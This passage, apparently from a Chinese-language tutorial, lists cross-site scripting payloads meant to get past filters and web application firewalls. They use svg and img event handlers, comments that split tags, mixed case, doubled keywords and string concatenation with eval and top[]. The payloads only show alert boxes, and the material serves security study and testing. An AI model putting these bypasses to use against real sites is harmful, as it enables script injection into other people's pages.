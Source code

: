 #### **用`<svg>`标签(个人感觉比较少被过滤,起码比`<script>`标签少)**

```html
<svg onload="alert(1)">
```

**基于像`<script>`标签这样被过滤的情况。`<img>`标签配合事件也行，不过基本都是配合`onerror`事件属性，别的事件更难触发，像`onclick`事件要触发还需要受害者点击等等，如果`onerror`事件属性被过滤了再考虑使用。下面也有大量用到。**

#### 注释符干扰绕过

**html中的注释标签`<!-- 在此处写注释 -->`用于在 HTML 插入注释。**

**绕过例子：**

```html
<scri<!--test-->pt>alert("hello world!")</scri<!--test-->pt>
```

#### 大小写绕过

```html
<ImG sRc=1 onerRor=alert(1);>
    
<SvG OnlOad="alert(1)">
```

#### 双写关键字（有限制）

**有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字来绕过：**

```html
<imimgg srsrcc=x onerror=alert("xss");>
```

**先判断哪些关键字被过滤，然后再试试双写它。还是要具体情况具体分析吧，如果waf不是只替换一次且是替换为空，可能就不行了**

#### 字符拼接

**利用`eval`，这里反引号也可以用单引号、双引号**

```html
<img src="x" onerror="a=`aler`;b=`t`;c='(1);';eval(a+b+c)">

<svg onload="a=`aler`;b=`t`;c='(1);';eval(a+b+c)">
```

**利用`top`，这里反引号也可以用单引号、双引号**

```html
<script>top[`al`+`ert`](1);</script>

<img src="x" onerror="top['al'+'ert'](1);">

<svg onload='top["al"+"ert"](1);'>
```

#### 其它字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，那么我们就可以使用其它字符去混淆我们注入的代码了。
下面举几个简单的例子：
